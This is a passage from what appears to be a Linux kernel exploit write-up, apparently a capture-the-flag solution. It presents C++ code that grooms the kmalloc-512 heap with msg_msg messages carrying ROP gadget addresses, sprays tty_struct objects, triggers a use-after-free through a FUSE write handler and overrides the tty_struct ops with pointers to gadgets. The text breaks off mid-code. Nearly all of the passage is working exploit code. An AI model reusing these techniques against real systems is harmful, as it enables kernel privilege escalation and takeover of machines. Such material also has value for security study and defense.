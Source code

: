 #### kmalloc-512 Heap We control with function pointers for tty_sturct's ops

You can see that we groom the heap to point to our gadget. With previous step (leaking the kmalloc-512 heap) we have pointer to address holding this data.

```cpp
void msg_msg_next_heap_groom(int size, int n, int type)
{
    char buffer[0x2000], recieved[0x2000];
    memset(buffer, 0, sizeof(buffer));
    memset(recieved, 0, sizeof(recieved));

    msg *message = (msg *)buffer;

    message->mtype = type;
    uint64_t *ptr = (uint64_t *)message->mtext;
    uint64_t mov_prdx_rcx_ret = kbase + mov_prdx_rcx_ret_offset; // 0xffffffff81acd98d: mov [rdx], rcx; ret;
    println("[*] mov_prdx_rcx_ret: {:#X}", mov_prdx_rcx_ret);
    for (int i = 0; i < size / 8; ++i)
    {

        ptr[i] = mov_prdx_rcx_ret; // 0xffffffff81ad464d: mov [rdx], rcx; ret;
    }

    int mqids = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    for (int i = 0; i < n; i++)
    {
        if (msgsnd(mqids, &message, size - 0x30, 0) != 0)
            printf("[*] Error with msgsnd %d in heap_groom\n", mqids);
    }
}
```

#### Override tty_struct's ops with kmalloc-512 heap with function pointers to Our Gadgets

```cpp
if (strcmp(path, "/write") == 0)
{
    puts("[*] fuse write");

    auto s1 = pwn::kmalloc_1024::tty_struct::spray(20);
    sprays.insert(sprays.end(), s1.begin(), s1.end());

    puts("[+] trigger uaf");
    // you have to realloc before fuse
    resize_buffer(mid_fd, 0x350);

    auto s2 = pwn::kmalloc_1024::tty_struct::spray(20);
    sprays.insert(sprays.end(), s2.begin(), s2.end());

    char tmp[0x20];

    memset(tmp, 0, 0x20);

    uint64_t *ptr = (uint64_t *)tmp;

    // it seems that first data to tty_struct is always 0x0000000100005401.
    ptr[0] = 0x0000000100005401;
    ptr[1] = 0x0;

    println("[+] heap_leak: {:#X}", heap_leak);
    if (heap_leak == 0)
```